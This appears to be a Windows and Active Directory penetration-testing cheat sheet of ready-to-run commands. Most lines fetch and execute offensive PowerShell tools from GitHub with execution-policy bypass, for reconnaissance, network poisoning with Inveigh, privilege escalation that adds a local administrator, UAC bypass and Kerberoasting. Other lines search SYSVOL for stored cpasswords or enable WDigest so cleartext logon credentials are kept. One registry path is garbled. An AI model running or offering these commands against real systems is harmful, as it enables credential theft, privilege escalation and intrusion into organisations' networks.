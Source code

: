 ## ADRecon script to generate XLSX file of domain properties
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/sense-of-security/ADRecon/master/ADRecon.ps1')"


# Priv Esc
## PowerUp script
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”

## cPasswords in sysvol
findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S cpassword $env:logonserver\sysvol\*.xml

## Inveigh
### Start inveigh using Basic Auth - logging to file
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -HTTPAuth Basic"

### Start inveigh in silent mode (no popups)
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -WPADAuth anonymous"

## Invoke-HotPotato Exploit
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');invoke-Tater -Command 'net localgroup Administrators user /add'"

## Bypass UAC and launch PowerShell window as admin
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"

## Invoke-Kerberoast with Hashcat Output
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"


# Reg Keys
## Enable Wdigest
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1 /f

